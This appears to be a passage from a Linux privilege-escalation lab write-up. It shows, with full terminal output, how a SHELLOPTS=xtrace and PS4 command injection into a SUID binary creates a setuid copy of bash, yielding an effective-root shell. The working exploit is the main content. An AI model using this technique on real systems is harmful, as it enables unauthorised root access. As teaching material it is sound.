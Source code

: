 **Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!**

```
rm /tmp/rootbash
exit
```

## #1 - Read and follow along with the above.

```bash
user@debian:~$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2.
user@debian:~$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
rootbash-4.1# rm /tmp/rootbash
rootbash-4.1# exit
exit
user@debian:~$ 
```

